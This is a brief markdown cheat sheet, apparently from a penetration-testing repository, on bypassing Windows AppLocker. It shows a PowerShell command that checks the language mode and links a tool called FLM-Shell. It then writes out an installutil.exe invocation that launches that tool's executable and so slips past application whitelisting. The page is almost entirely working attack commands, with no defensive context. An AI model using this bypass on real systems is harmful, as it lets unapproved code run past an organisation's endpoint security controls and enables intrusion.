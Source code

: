 # Bypass Applocker
## Check Powershell Language Mode
```powershell
$ExecutionContext.SessionState.LanguageMode
```
[FLM-Shell](https://github.com/an3m0ne/FLM-Shell)
```
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\installutil.exe /logfile= /LogToConsole=false /U C:\users\an3m0ne\FLM-Shell.exe
```
